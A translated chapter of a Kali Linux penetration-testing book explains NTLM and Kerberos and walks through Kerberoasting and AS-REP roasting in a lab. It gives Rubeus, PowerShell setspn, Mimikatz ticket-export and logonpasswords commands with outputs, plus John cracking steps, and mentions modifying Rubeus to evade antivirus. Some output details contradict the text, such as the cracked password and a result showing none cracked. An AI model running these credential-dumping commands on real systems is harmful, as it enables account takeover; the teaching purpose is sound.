# kali linux 密码破解

## 题献

献给我的家人和朋友们，感谢你们无休止的支持与鼓励。你们对我意义非凡！是的，我知道，我曾说过再也不写书了。但你们太了解我了——我每次都会这么说，而你们不带评判的支持正是我们成为挚友的原因！

> *"每一个秘密都可能成为一个潜在的失败点。" — Bruce Schneier*
> *"我黑客行为的主要动机是智识上的好奇心和冒险的诱惑。" - Kevin Mitnick*
> *"有人破解了我的密码，现在我得给我的小狗换个名字了。" -*
> *未知人士*
> *"战争的艺术教导我们，不要指望敌人不来的可能性，而要依靠我们自己迎接敌人的准备；不要指望敌人不进攻的机会，而应依靠我们自己已建立了不可攻破的阵地。"*
> *- 孙子，《孙子兵法》*
> *"看哪，我差你们去，如同羊进入狼群；所以你们要灵巧像蛇，驯良像鸽子。" - 马太福音 10:16 (钦定本)

## 作者简介


**Daniel W. Dieterle**

Daniel W. Dieterle 在 IT 领域拥有超过 20 年的工作经验。在此期间，他曾在一家计算机支持公司工作，为纽约上州和宾夕法尼亚州北部数百家企业提供系统和网络支持。他还曾在《财富》500 强企业的数据中心、常春藤盟校的计算机支持部门工作，并曾在一家电气工程公司担任高管，以及在一个非营利公司的董事会任职。

在过去的 11 年里，Daniel 完全专注于安全领域，作为计算机安全研究人员和作家。他的文章发表在国际安全杂志上，并被技术组织和媒体引用。他基于 Kali Linux 撰写的书籍被全球用于大学、技术培训中心、政府机构和私营部门组织的教学与培训资源。Daniel 协助创建和审阅了众多安全培训课程、技术书籍和文章供出版公司使用。他也乐于帮助该领域的新手。

**电子邮箱**: cyberarms@live.com
**网站**: cyberarms.wordpress.com, DanTheIoTMan.com
**推特:** @cyberarms

## 致谢

铁石相磨，铁石益坚；没有人是孤岛。任何成功的项目都是团队合作的结果，在本书中尤为如此。我想借此机会向帮助完成这本书的朋友、同事和同行表示特别的感谢。如此多的人提供了宝贵的智慧、建议和忠告——分享来自战壕的新闻、经验、技巧和工具。我非常感激你们的协助、时间、洞察和投入——谢谢你们！

## 特别感谢：

**D. Cole** – 没有你，这本书将不存在。我非常感激你持续的支持、知识、反馈、焦点调整、鼓励、美食照片以及你的友谊！

**Bill Marcy** – 没有你，我的写书生涯将不存在。你的智慧、洞察力、渊博的知识以及当然偶尔的鞭策对我是无价的。非常感谢你，我的朋友！

**Alex** – 没有你我该怎么办？我非常感激你持续的支持和鼓励。谢谢你的长篇畅谈和你深刻的见解。谢谢你用独特的观点和智慧让艰难的日子变得更容易。谢谢这一切。

**我的信息安全家人** – 你们中很多人我不只是视为朋友，更视为家人。你们知道自己是谁 - 非常感谢你们与我分享时间、知识和友谊。

**书评人** – 感谢 Bill Marcy、D. Cole 和 Sudo Zues 审阅章节并提供出色的反馈。

# 第 1 章

## 深入密码安全的攻击之旅


在一个我们的生活与数字织物紧密交织的时代，保护个人信息至关重要。作为在广阔网络空间中航行的安全意识个人，理解网络安全的重要性以及道德黑客在强化虚拟边界中所发挥的关键作用变得必不可少。本书将读者带入认证黑客领域，特别关注密码破解的艺术与科学，揭示保护我们数字身份的层层安全防护。

密码破解常被视为网络安全的万能钥匙，是一个引人入胜的研究领域，它深入探讨了解析和利用数字防御中薄弱环节的方法。这种探索将我们带入密码破解工具的军火库——这些精密仪器被渗透测试员和红队用来评估和加强数字防御，也被寻求未授权访问的攻击者所使用。在这片技术景观中，我们将解开这些工具的复杂性，阐明其功能，并揭示它们在网络安全领域的应用。

当我们深入探讨密码破解的细节时，会发现它既是艺术也是科学。该过程涉及理解加密算法、利用漏洞，并采用各种技术来揭示隐藏在多层安全防护后的密码。本书旨在为读者提供对这些方法的全面理解，赋予他们能够用于加强防御或评估漏洞的知识。

Windows 作为塑造企业数字世界的主要操作系统之一，成为我们学习之旅的焦点。我们将首先了解 Windows 密码安全的复杂性及其用于创建密码的技术。理解 Windows 如何保护用户凭据的基本原理不仅对有志于成为道德黑客和渗透测试员的人来说是有价值的知识，对于希望在互联世界中加强自身数字存在的任何安全领域人士来说也是至关重要的。随后，我们将深入探讨破解这种安全并破解密码的工具、战术和技术，打开数字王国的钥匙，攻破数字堡垒。

### 前置条件和范围

本书面向希望提高密码破解技能的计算机安全专业人士。它也面向想要了解更多关于密码安全的网络安全学生。本书假设读者已经熟悉基本的 Windows 和 Linux 安全主题，并且能够熟练使用 Kali Linux。虽然关于 Windows Kerberos 理论的引言部分颇具挑战性，这是一个非常复杂的主题，但书的其余部分编写时考虑到，如果读者对主题不熟悉，他们可以通过“边做边学”来掌握。本书是我“使用 Kali Linux 进行安全测试”系列的一部分。我强烈建议读者在攻克本书之前，先熟悉我《使用 Kali Linux 进行基础安全测试》和《使用 Kali Linux 进行高级安全测试》两本书中的主题。

### 实验环境设置

在实验环境设置中，我使用了 Kali Linux 2023、Windows 11、Windows Server 2022 和 VMWare 中的 Metasploitable2。系统已设置为可以相互通信。Windows Server 被设置为域控制器，并通过 SecFrame 的“Bad Blood”进行修改，以添加数千个不安全的 Active Directory 对象。对于读过我其他书籍的人，这是完全相同的实验环境设置。

由于 Bad Blood 每次运行都会创建随机用户和对象，你将永远无法拥有与本书中使用的完全相同的 Active Directory 环境。但是概念和技术是可靠的，你应该能够在任何当前的 Windows Server 实验目标系统上运行这些命令并获得类似的结果——只要你有相应的权限。

我在《使用 Kali Linux 进行基础安全测试》一书中介绍了创建测试实验环境的方法。我在《使用 Kali Linux 进行高级安全测试》一书中介绍了设置 Windows Server 2022 和 BadBlood 的方法。请确保你的系统从外部访问进行了安全加固，处于独立和防火墙保护的系统环境中，并且无法访问生产系统，因为它们易受攻击。

- VMWare Workstation Player
  https://www.vmware.com/products/workstation-player.html
- Kali 虚拟机下载
  https://www.kali.org/get-kali/#kali-virtual-machines
- Metasploitable2 下载
  https://sourceforge.net/projects/metasploitable/
- Windows 11 评估虚拟机下载
  https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/
- Windows Server 2022 评估版下载 - https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2022
- Bad Blood 文档 - https://secframe.com/docs/badblood/whatisbadblood

你可以使用任何你希望的虚拟环境来搭建一个实验室环境。但请务必妥善对其进行安全防护，因为你将使用存在漏洞的虚拟机。如果你完全不了解如何搭建测试实验室，请查阅本书末尾的附录章节！

### 道德黑客问题

在**道德黑客与渗透测试**中，安全测试人员基本上表现得像一个黑客。他们使用黑客最可能使用的工具和技术来测试目标网络的安全性。区别在于，他们受雇于公司进行测试，并在完成后向领导层揭示他们是如何入侵的以及他们可以采取哪些措施来堵住漏洞。我认为在使用这些技术时最大的问题是道德和法律。本书中介绍的一些安全测试技术在某些地区实际上是违法的。因此，用户在使用本书中的信息之前，务必检查其当地、州级和联邦法律。


此外，你可能会遇到一些用户试图在未获得授权的网络上使用 Kali Linux 或其他**道德黑客**工具的情况。或者，他们可能会尝试在生产网络上使用一种他们学过但可能尚未熟练掌握的技术。所有这些都是潜在的法律和道德问题。切勿对未获得明确书面许可的系统运行安全工具。此外，最好始终在网络的离线、非生产副本上运行可能修改数据或导致系统不稳定的测试，并分析结果，然后再尝试在实时系统上使用该工具。

### 免责声明

切勿尝试访问你不拥有的计算机，或在未获得书面许可的情况下对网络或计算机进行安全测试。这样做可能会使你面临法律诉讼，甚至可能入狱。

> *本书中的信息仅用于教育目的！*

在实时环境中会遇到许多本材料未涵盖的问题和技术。本书仅展示了所涵盖工具的一些最基本用法，不应被视为关于**道德黑客**或**渗透测试**的全面手册。

我没有创建本书中涵盖的任何工具或软件程序，我也不是 Kali Linux、Offensive Security 或 Microsoft 的代表。本书中出现的任何错误、失误或教程中的缺陷均由本人负责，不应归咎于工具创建者。在本书撰写时，书中的所有练习均有效。工具的使用、功能和链接会随时间变化，如果这里提供的信息不再有效，请访问工具创建者的网站以获取最新信息。感谢 Kali Linux 的开发者创建了一款出色的产品，也感谢各个工具的创建者，你们都做得非常出色，正在帮助保护全球各地的系统！

### 我们将在此旅程中涵盖的内容


在第一章中，我们将介绍 Windows 基础安全身份验证协议 Kerberos 和 NTLM 的基本介绍。这两种协议都创建加密的密钥——Kerberos 使用票据，而 NTLM 使用哈希值。为了简化的缘故，我将在这整本书中将这两种都称为“密码哈希值”。然后我们将介绍用于获取这些哈希值的一些流行工具和技术。

随后，我们将广泛地查看词库。词库是密码破解的基础。使用良好的词库将大大增加你破解密码的成功率和速度。我们将介绍如何查找、创建或生成有效的密码破解词库。这包括使用工具创建自定义词库。然后我们将深入研究实际的破解工具。介绍词库如何被破解程序用于解锁访问权限。在接下来的章节中，我们将简要介绍 John the Ripper，然后深入挖掘，用多个章节详细查看首屈一指的密码破解工具 Hashcat。

首先，我们如何获取用于破解的哈希值？我们将查看 Windows 中 Kerberos 和 NTLM 身份验证协议的工作原理，以及如何从它们中提取哈希值。系好安全带，抓紧扶手，这将是一段惊险的旅程！

## 第 2 章

### 获取用于破解的密码哈希值

Windows Server 活动目录（Active Directory）有几种认证用户的方式。这些身份验证协议包括 NTLM 和 Kerberos。让我们先简要谈谈这两者。



NTLM（NT LAN Manager）协议在 Windows 环境中的身份验证过程中发挥着至关重要的作用，是验证用户和系统身份的关键机制。作为一种遗留协议，NTLM 自 Windows 早期版本以来一直是稳固的组件，尽管随着更高级身份验证协议（如 Kerberos）的出现，其重要性已有所减弱。

与 Kerberos 不同，NTLM 主要通过质询-响应机制起作用。当用户尝试访问资源时，服务器会生成一个随机质询并将其发送给客户端。然后，客户端使用用户凭据对该质询进行加密，并将加密后的响应发送回服务器。如果服务器能够使用存储的凭据成功解密该响应，则授予访问权限。此过程通过确保客户端和服务器都拥有身份验证所需的凭据，提供了一定程度的安全性。

然而，尽管具有历史意义，但 NTLM 并非没有漏洞。随着时间推移，安全专家已识别出该协议的弱点，导致其逐渐被更稳健、更安全的身份验证方法（如 Kerberos）所取代。NTLM 容易遭受某些类型的攻击，例如 Pass-the-Hash 攻击，攻击者捕获哈希凭据并尝试使用它们进行未授权访问。虽然有许多方法可以提取 NTLM 密码哈希值，但其中最流行的工具之一是 Mimikatz。

Kerberos 是这两个协议中最安全的。但许多公司仍使用较旧的 NTLM 身份验证协议，因此它仍被默认包含在内。随着更安全身份验证协议（如 Kerberos）的创建和实施，限制 NTLM 的使用或完全移除它是一个非常好的主意。话虽如此，Kerberos 和 NTLM 都是攻击者的常见目标。虽然身份验证协议不同，但攻击过程在某种程度上是相似的——黑客使用工具或程序从其中任何一种获取加密的密码信息，然后尝试破解它。

我们将从深入查看攻击 Kerberos 安全的一种方式——“Kerberoasting”开始。然后我们将查看使用 Mimikatz 快速提取 NTLM 凭据的方法。有许多工具和过程可用于从内存中提取凭据。我们将仅快速介绍其中几种。我在我的基础版和高级版 Kali 书籍中涵盖了其他密码恢复主题。

下一节将涉及更多理论内容，理解该过程背后的技术是有益的。但如果理论过于复杂且你感到有些迷茫，别担心！这确实听起来像是令人困惑的技术行话，哈哈！目前，你只需要理解 Windows 可以创建多种类型的加密密码，包括 Kerberos 和 NTLM。并且从系统中提取并破解它们的过程略有不同。

#### KEROBEROASTING

“Kerberoasting”是一种针对活动目录环境中使用的 Kerberos 身份验证协议的安全攻击。简单来说，在活动目录环境中，Kerberos 是帮助用户和系统安全地进行身份验证的协议之一。Kerberos 是一个基于票据的系统。基本上，Kerberoasting 是一种方法，攻击者捕获加密的服务票据，针对活动目录环境中的服务账户，然后尝试离线破解加密信息以揭示服务账户的密码。

#### Kerberoasting 的关键组件

要理解 Kerberoasting 攻击，我们需要理解 Kerberos 本身的工作原理。让我们看看涉及 Kerberos 应用于 Kerberoasting 时的一些重要组件：

- **票据授予票据（TGT）** - 当用户登录 Windows 系统时，他们从密钥分发中心（KDC，Active Directory 的一部分）获得一个票据授予票据（TGT）。
- **服务票据** - TGT 可用于请求特定资源（如网络中的服务器或服务）的服务票据。
- **服务账户** - 服务账户常成为攻击目标，因为它们是与在后台运行的服务关联的账户。它们通常拥有特权访问权限，许多时候是域管理员组的成员。它们的密码很少更改，或者根本不更改。此外，很多时候它们的密码长度仅满足域的最小密码长度要求。这使得它们成为攻击者的主要目标。

Kerberos 在认证过程中签发这些票据。TGT 在初始认证过程中获取，可用于请求网络中特定服务的服务票据。当签发服务票据时，它使用服务账户的秘密密钥进行加密。这是一种加密形式，包含关于票据的信息，包括时间戳和其他详细信息。

在 Kerberoasting 攻击中，攻击者试图捕获特定服务的服务票据，特别是那些与服务账户关联的服务。这些服务票据包含加密的信息，攻击者可以尝试在离线状态下进行破解。一旦破解成功，加密的服务票据将揭示该账户的明文密码。

#### 攻击 Kerberos

执行 Kerberoasting 攻击涉及几个步骤，攻击者通常使用多种技术来实现其目标。为了避免被检测，攻击者可能以隐蔽的方式执行攻击，限制服务票据请求的数量，并确保他们的操作不会触发安全警报。



以下是与 Kerberoasting 攻击相关的一些常见技术：

1. **识别服务账户**

攻击者在 Active Directory 环境中识别服务账户。服务账户通常与后台服务相关联，由于其通常具有较长且复杂的密码，因此是诱人的目标。

2. **枚举服务主体名称（SPN）**

服务主体名称（SPN）与服务账户相关联。攻击者可能会使用诸如 BloodHound 或 PowerView 等工具来枚举和识别具有关联 SPN 的账户。

3. **请求服务票据**

攻击者为已识别的服务账户请求服务票据。他们通常使用在初始认证期间获取的票据授予票据（TGT）来请求特定服务的服务票据。

4. **捕获服务票据**

一旦获得服务票据，攻击者就会捕获票据授予票据（TGT）以及与目标服务账户关联的加密服务票据。

5. **破解票据**

攻击者使用离线技术，如暴力破解或字典攻击，试图解密服务票据。目标是揭示与服务账户关联的明文密码。这通常使用诸如 Hashcat 或 John the Ripper 等工具来完成。

6. **票据传递（Pass-the-Ticket）攻击**

在某些情况下，攻击者可能会使用票据传递攻击来访问资源，而无需破解票据。这涉及呈现捕获的服务票据以获得未授权的访问权限。


这是标准的攻击流程，但不是唯一的流程。现在的许多工具都自动化了这个过程的大部分。使用 `Mimikatz` 等工具从内存中提取 Kerberos 票据也是可能的。`Mimikatz` 是从内存中提取各种密码和有用信息（包括导出 NTLM 哈希值）的常用工具。

### Kerberos 攻击工具

话虽如此，了解攻击者可能使用的工具对于防御者意识潜在威胁并采取适当措施至关重要。一些与 Kerberoasting 攻击常见的工具有：

- `PowerShell` 脚本

  `PowerShell` 是内置于 Windows 中的强大脚本语言。有各种 `PowerShell` 脚本，如 `PowerView` 和 `Invoke-Kerberoast`，可用于识别服务账户、请求服务票据以及执行 Kerberoasting 过程中的其他步骤。许多这些脚本作为模块包含在命令和控制（C2）框架中。有关 C2 及其攻击模块的更多信息，请参见我的书《使用 Kali Linux 进行高级安全测试》。

- `Rubeus`

  `Rubeus` 是一个强大的后利用工具，攻击者经常将其用于 Kerberoasting 攻击。它可以用于请求 TGT、请求服务票据以及执行票据相关攻击。它包含票据提取和离线破解的功能。

- `Mimikatz`

  `Mimikatz` 是一个著名的后利用工具，可用于提取 Kerberos 票据并执行票据传递攻击。它还可以用于提取 NTLM 和其他安全哈希值。

- `Kerberoast` 工具包

  `Kerberoast` 是一组用于攻击 Kerberos 的工具。它包括用于提取服务主体名称（SPN）、请求票据以及破解票据的工具（`tgsrepcrack`）。

- 破解工具（`Hashcat`、`John the Ripper`）

  这些是通用的密码破解工具。虽然它们不是专门针对 Kerberoasting 的，但可以用于尝试离线破解 Kerberos 票据。

- `BloodHound`

  `BloodHound` 是一个用于 Active Directory 分析的工具。虽然它不是专门的 Kerberoasting 工具，但它可以用于识别服务账户及其关联的特权，可能有助于攻击者规划 Kerberoasting 攻击。



`BloodHound` 可以检测并显示 AD 域中可执行 Kerberoasting 的账户

攻击者使用这些工具试图破坏目标的安全并获取用户凭证。安全专业人员也可以使用这些工具进行道德黑客行为或渗透测试，以识别和解决安全漏洞。希望这个快速概述能有助于阐明 Kerberos 和 Kerberoasting 的基础知识。

你做到了！花几分钟时间深呼吸一下。正如我之前所说，如果你不理解票据创建过程的每个部分，也没关系。目前，只需知道 Windows 创建并使用加密数据用于认证过程——包括票据（Kerberos）和密码哈希（NTLM）。接下来，我们将查看黑客用于获取这些秘密以进行破解的一些工具。

废话不多说，让我们开始动手实践！

### RUBEUS

**工具 GitHub：** [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

**工具 Wiki：**

[https://specterops.gitbook.io/ghostpack/rubeus/introduction](https://specterops.gitbook.io/ghostpack/rubeus/introduction)

`Rubeus` 是一个基于 C# 的用于交互和攻击 Kerberos 的工具。该工具最初基于 Benjamin Delpy（`Mimikatz` 的创建者）的 `Kekeo` 开发，但随后演变成其独立的创造。`Rubeus` 可以通过许多不同的方式攻击 Kerberos，我们只简要介绍一种。我强烈建议读者查阅该工具的 Wiki，以获取广泛的文档和使用信息。

你会注意到 `Rubeus` 的 GitHub 页面上没有可执行文件下载。你需要自己编译该工具。显然，就其当前形式而言，它会被大多数（如果不是所有）防病毒系统检测到并立即阻止。经验丰富的红队攻击者需要在编译前修改部分代码以避开反病毒检测。

#### Kerberoasting 快速演练

1. **获取初始访问权限**

    在使用 `Rubeus` 之前，攻击者需要获得系统或网络的初始访问权限。这可以通过多种方式实现，例如利用漏洞、使用钓鱼攻击或利用其他攻击向量。我在我的《使用 Kali Linux 进行基础和安全测试》书籍中详细涵盖了这些技术。

2. **部署 Rubeus**

    一旦攻击者获得了系统的访问权限，他们就可以在受影响的服务器上部署 `Rubeus`。`Rubeus` 是一个独立工具，可以从命令行运行。

3. **执行 Rubeus Kerberoast 攻击**

    攻击者使用 `Rubeus` 请求特定用户或所有用户的票证授予票证（TGT）。这通常是一个域用户账户，目标是获取 TGT，然后可以使用它来请求服务票证。

    听起来很复杂，我知道。但攻击本身相当简单。

    - 下载并编译 `Rubeus` 可执行文件
    - 将可执行文件传输到 Windows Server 目标
    - 在 Windows Server 提示符下，输入 "`Rubeus.exe kerberoast`"

    

    然后 `Rubeus` 将对域执行 kerberoast 攻击，并显示它找到的任何服务账户哈希。就这样，如果攻击成功，我们现在就拥有了许多服务账户的密码哈希，我们可以尝试破解它们！

    如果目标没有设置 Kerberos 预认证，你也可以尝试 AS-REP roasting。

    ```
    Rubeus.exe asreproast
    ```

    ```
    C:\Data>Rubeus.exe asreproast

    Rubeus
    v2.2.0

    [*] Action: AS-REP roasting

    [*] Target Domain                : Domain.Local
    [*] Searching path 'LDAP://TEMP-DC.Domain.Local/DC=Domain,DC=Local' for '(&(samAccountType=805306368\n3555:1.4.609:43484)')'
    [*] SamAccountName               : SHARRON_DANIELS
    [*] DistinguishedName            : CN=SHARRON_DANIELS,OU=Deivces,OU=TST,OU=Tier 1,DC=Domain,DC=Local
    [*] Using domain controller: TEMP-DC.Domain.Local (fe80::f16f:2cc:a8cc:8efe%6)
    [*] Building AS-REQ (w/o preauth) for: 'Domain.Local\SHARRON_DANIELS'

    [*] SamAccountName               : HORACE_EVANS
    [*] DistinguishedName            : CN=HORACE_EVANS,OU=Groups,OU=BDE,OU=Tier 2,DC=Domain,DC=Local
    [*] Using domain controller: TEMP-DC.Domain.Local (fe80::f16f:2cc:a8cc:8efe%6)
    [*] Building AS-REQ (w/o preauth) for: 'Domain.Local\HORACE_EVANS'
    ```

    如果成功（在这个域上没有成功），它会列出所有潜在目标的密码哈希。

4. **离线破解**

    然后，攻击者可以尝试使用 `Hashcat` 或 `John the Ripper` 等工具在离线环境下破解服务票证，以揭示与服务账户关联的明文密码。

5. **票证传递攻击（未涵盖）**

    在某些场景下，攻击者可能会使用 `Rubeus` 进行票证传递攻击，通过呈现捕获的票证来获得对服务的未授权访问，而无需破解票证。

    这只是 `Rubeus` 某个功能的非常简单的概述。你可以使用 `Rubeus` 攻击活动目录（Active Directory）的许多其他方式。例如，你可以按组织单元（OU）攻击特定的用户或组。请参阅工具 Wiki 以获取更多信息。

### KERBEROAST 工具包

**GitHub 网站：** https://github.com/nidem/kerberoast


Kerberoast 是一组用于攻击 Kerberos 的工具。执行 Kerberoasting 的完整过程在工具网站上已有覆盖。为了方便起见，此处复制了这些步骤。你还需要下载 Mimikatz 并将其可执行文件（`Mimikatz.exe`）放置在目标 Windows 系统上。Mimikatz 在下一节中进行了介绍。

### 在 Kali 系统上准备 Kerberoast 工具包

- 在你的 Kali 系统上下载 Kerberoast 工具包。
- 在 Kali 终端中，输入 `git clone https://github.com/nidem/kerberoast.git`
- 然后更改目录到 `kerberoast`

### 在 Windows Server 目标的 PowerShell 中提取票证

在 Windows Server 目标的 PowerShell 中：

- 输入，`setspn -T domain -Q */*`
- 然后，`Add-Type -AssemblyName System.IdentityModel`
- 最后，`setspn.exe -T DOMAIN.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`

这些是内置的 Microsoft 命令，将提取票证并将其保存到内存中。

```
PS C:\Users\Administrator> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\Administrator> setspn.exe -T DOMAIN.local -Q */* | Select-String  $Context.PostContext[0].Trim()

Id : uuid-0f341948-63fb-42a6-a673-546dbdb61fbfd-1
SecurityKeys : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom : 11/17/2023 8:11:35 PM
ValidTo : 11/18/2023 5:57:43 AM
ServicePrincipalName : Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EBB4/TEMP-DC.DOMAIN.LOCAL
SecurityKey : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id : uuid-0f341948-63fb-42a6-a673-546dbdb61fbfd-2
SecurityKeys : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom : 11/17/2023 8:11:35 PM
ValidTo : 11/17/2023 8:13:35 PM
ServicePrincipalName : kadmin/changePW
SecurityKey : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

这将提取安全账户的 Kerberos 票证并将其放入活动内存中。现在，我们只需要一个工具来从这些中提取哈希并将其保存到一个文件中。为此，我们可以使用工具 Mimikatz。

### 使用 Mimikatz 导出票证

- 下载 [Mimikatz](https://github.com/gentilkiwi/mimikatz) 并将 `Mimikatz.exe` 文件保存到你的 Windows Server 目标。
- 打开命令提示符并运行 Mimikatz
- 在 Mimikatz 提示符下输入，`“kerberos::list /export”`

Mimikatz 将从内存中提取所有 Kerberos 票证并将它们保存为单独的文件。

```
C:\Data\mimikatz

.#####. mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
.## ^ ##. “A La Vie, A L’Amour” - (oe.eo)
## / \ ## /** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \/ ## > https://blog.gentilkiwi.com/mimikatz
'## \\ ## Vincent LE TOUX ( vincent.letoux@gmail.com )
 '####' > https://pingcastle.com / https://mysmartlogon.com **/

mimikatz # kerberos::list /export

[00000000] - 0x00000012 - as56_hmac
Start/End/MaxRenew: 11/17/2023 2:57:43 PM ; 11/18/2023 12:57:43 AM ; 11/24/2023 2:57:43 PM
Server Name : krbtgt/DOMAIN.LOCAL @ DOMAIN.LOCAL
Client Name : Administrator @ DOMAIN.LOCAL
Flags 40a10000 : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
* Saved to file : 0-40a10000-Administrator@krbtgt-DOMAIN.LOCAL-DOMAIN.LOCAL.kirbi
```

我们现在拥有了许多服务账户的加密哈希；我们要做的只是破解它们！我们不能直接破解哈希；它的格式不兼容。你需要将 Mimikatz 的 `.kirbi` 保存文件转换为 Hashcat 或 John the Ripper 所需的格式。我们可以通过将 kirbi 文件复制到我们的 Kali 系统，然后使用 Kerberoast 工具包文件 `kirbi2john` 进行转换来实现这一点。

- 将你要破解的 Kerberos `.kirbi` 文件复制到我们在 Kali 系统上的 Kerberoast 目录
- 然后运行，`"kirbi2john -o [output_file_name] [Mimikatz_Kirbi_File]"`

```
(kali@kali:~)$ kerberoast
$ kirbi2john -o hash.txt 61-40a10000-Administrator@ftp~ESMWLPT1000001-DOMAIN.LOCAL.kirbi
tickets written: 1
```

### 破解哈希

现在，让我们破解它！

为此，我们将使用 John the Ripper 和一个单词列表。在这个例子中，我只创建了一个包含正确密码的单词列表。别担心，我们稍后会更深入地介绍单词列表和破解。目前，我只想展示一个快速破解的示例。

- `John ./[Hash_to_Crack] --format=krb5tgs --wordlist=[wordlist]`

我们只需调用 John the Ripper，提供密码哈希、Kerberos 格式和一个单词列表。

```
(kali@kali:~)$ kerberoast
$ john ./crack.txt --format=krb5tgs --wordlist=kerbwl.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 4 needed for performance.
0g 0:00:00:00 DONE (2023-11-17 19:19) 0g/s 33.33p/s 33.33c/s 33.33C/s Password123!
Session completed.
```

我们做到了！我们成功地从 Kerberos 中提取了一个服务账户密码哈希，并使用 PowerShell 将其保存到内存中。然后我们使用 Mimikatz 从内存中提取数据并将其保存到文件。我们将文件转换为破解程序可以处理的格式。最后，我们成功破解了密码 `"Passw0rd123!"`。再次强调，这只是一个例子，我们将在后续章节中更深入地探讨破解！

#### MIMIKATZ

工具 GitHub：https://github.com/gentilkiwi/mimikatz


工具 Wiki：https://github.com/gentilkiwi/mimikatz/wiki

Mimikatz 多年来一直是密码攻击中最受欢迎且常用的工具之一。我已经使用它这么多次，多到我无法计数，而且我仍在发现新的使用方式！Mimikatz 是一个强大的后渗透利用工具，通常被攻击者用于提取明文密码、NTLM 哈希、Kerberos 票据、终端服务器凭据以及更多内容！

## 使用 Mimikatz 转储 NTLM 哈希

- 从工具网站下载最新版 Mimikatz
- 在 Windows 目标上部署 Mimikatz
- 运行 `Mimikatz.exe`
- 输入 `privilege::debug`
- 然后输入 `sekurlsa::logonpasswords`

```
C:\Data>mimikatz.exe

.#####   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
.## ^ ##" "A La Vie, A L'Amour" - (oe.eo)
## / \#  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ##    > https://blog.gentilkiwi.com/mimikatz
"#* v ##"    Vincent LE TOQ    ( vincent.letoux@gmail.com )
"#####"      > https://pingcastle.com / https://mysmartlogon.com **/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 : 32567 (00000000:0004f823)
Session    : Interactive from 1
User Name  : Administrator
Domain     : DOMAIN
Logon Server   : TEMP-DC
Logon Time   : 9/15/2023 5:56:01 PM
SID        : S-1-5-21-991629165-1973077532-2227367499-500
   msv :
      [00000003] Primary
      * Username : Administrator
      * Domain : DOMAIN
      * NTLM : a00585656cddb91217ca66199595f4c5
      * SHA1 : 915fdae3f2afb670cab20788219aecc4de78959c
      * DPAPI : 77ca8ae45d14fadefd54b03e9fa704d
```

如果成功，你现在将拥有当前登录用户的 NTLM 哈希，以及登录到活动会话的其他任何用户的哈希。

## MIMIKATZ 哈希传递攻击

Mimikatz 还可以执行其他攻击，例如“哈希传递”、“黄金票据”和“白银票据”。这些攻击涉及直接使用票据或哈希本身来获取访问权限。虽然这超出了本书的范围，但我已在下面给出了每项攻击的简要描述。

- **哈希传递（Pass the Hash）** - 直接使用加密哈希进行访问，而无需破解它。
